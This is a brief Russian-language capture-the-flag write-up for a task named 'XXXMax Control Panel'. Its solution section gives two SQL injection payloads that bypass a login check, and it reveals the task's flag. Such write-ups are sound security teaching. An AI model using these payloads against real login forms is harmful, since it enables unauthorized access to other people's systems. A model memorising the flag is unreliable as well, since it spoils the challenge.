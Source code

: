 ## Название
XXXMax Control Panel

## Описание
Не могли бы вы краем глаза подсмотреть что там?

## Решение
Например `` ' OR id > 1 # `` или ``' OR username = 'admin' # ``

Флаг: `` flag{s4nt4_cl4us3_1s_k1nd4_us3ful} ``